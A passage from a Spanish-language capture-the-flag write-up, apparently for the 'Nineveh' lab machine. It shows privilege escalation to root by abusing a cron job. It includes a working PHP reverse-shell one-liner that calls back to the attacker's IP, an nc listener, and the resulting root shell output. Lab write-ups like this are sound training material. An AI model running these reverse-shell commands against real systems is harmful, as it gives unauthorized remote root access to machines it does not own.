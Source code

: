 ```bash
# minute (m), hour (h), day of month (dom), month (mon),                                                                                                                                                            
# and day of week (dow) or use '*' in these fields (for 'any').#                                                                                                                                                    
# Notice that tasks will be started based on the cron's system                                                                                                                                                      
# daemon's notion of time and timezones.                                                                                                                                                                            
# Output of the crontab jobs (including errors) is sent through
# email to the user the crontab file belongs to (unless redirected).
# 
# For example, you can run a backup of all your user accounts
# at 5 a.m every week with:
# 0 5 * * 1 tar -zcf /var/backups/home.tgz /home/
# 
# For more information see the manual pages of crontab(5) and cron(8)
# 
# m h  dom mon dow   command
*/10 * * * * /usr/sbin/report-reset.sh
```
Ahi tenemos una tarea CRON que tira de este script que esta creado por nosotros
```bash
-rwxr-x--- 1 amrois amrois 34 Jul  2  2017 /usr/sbin/report-reset.sh
```
Creamos un archivo en la ruta `/tmp/UPDATE`

Creamos el `archivo UPDATE` en `tmp` para que se ejecute con la `tarea CRON` que esta ejecutando `/usr/sbin/report-reset.sh`
`R-shell` en php
```Bash 
# Archivo Update
php -r '$sock=fsockopen("10.10.14.12",443);exec("/bin/sh -i <&3 >&3 2>&3");'  
```
Le asignamos los privilegios de ejecucion para que `root` pueda ejecutarlo:
```bash
amrois@nineveh:/tmp$ chmod +x update
amrois@nineveh:/tmp$ /usr/sbin/report-reset.sh
```

Nos ponemos a la escucha con una session de `nc -vlnp 443`y recibimos la `R-shell cuando se ejecute la tarea `CRON`
```bash
# nc -nlvp 443                                                                                                                                                                   
listening on [any] 443 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.43] 58308
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# 
2a7156085834f2fe318exxxxxxxxxxf3e6a5
```
